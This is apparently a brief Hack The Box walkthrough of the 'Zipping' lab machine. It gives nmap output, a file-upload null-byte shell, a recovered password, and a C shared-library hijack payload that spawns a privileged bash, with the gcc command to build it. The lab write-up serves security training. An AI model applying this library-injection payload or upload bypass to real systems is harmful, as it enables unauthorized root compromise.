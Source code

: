 ```yaml
---
title: Zipping Hack The Box Walkthrough
published: 2023-08-30
description: ""
image: ./1.png
tags:
  - htb
  - easy
category: Walkthroughs
draft: false
---
```


```
sudo nmap -A -T4 10.10.11.229
```

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-29 14:33 EDT
Warning: 10.10.11.229 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.11.229
Host is up (0.30s latency).
Not shown: 987 closed tcp ports (conn-refused)
PORT      STATE    SERVICE         VERSION
22/tcp    open     ssh             OpenSSH 9.0p1 Ubuntu 1ubuntu7.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 9d6eec022d0f6a3860c6aaac1ee0c284 (ECDSA)
|_  256 eb9511c7a6faad74aba2c5f6a4021841 (ED25519)
80/tcp    open     http            Apache httpd 2.4.54 ((Ubuntu))
|_http-title: Zipping | Watch store
|_http-server-header: Apache/2.4.54 (Ubuntu)
81/tcp    filtered hosts2-ns
1029/tcp  filtered ms-lsa
1102/tcp  filtered adobeserver-1
1152/tcp  filtered winpoplanmess
2522/tcp  filtered windb
3168/tcp  filtered poweronnud
3404/tcp  filtered unknown
6006/tcp  filtered X11:6
7777/tcp  filtered cbt
8180/tcp  filtered unknown
32780/tcp filtered sometimes-rpc23
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 88.92 seconds
```

![](./1.png)

on work with us we can see a file upload

```
https://null-byte.wonderhowto.com/how-to/bypass-file-upload-restrictions-web-apps-get-shell-0323454/
```

using null byte injection we got the shell

![](./2.png)

![](./3.png)


using strings we got the password St0ckM4nager

![](./4.png)

![](./6.png)


using strace we found the a file not found replacing it by a shell can give us root access

```
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h> 
void inject(void) __attribute__((destructor)); 

void inject(void){ 
    system("bash -p"); 
}
```

```
gcc -shared -o /home/rektsu/.config/libcounter.so -fPIC payload.c
```

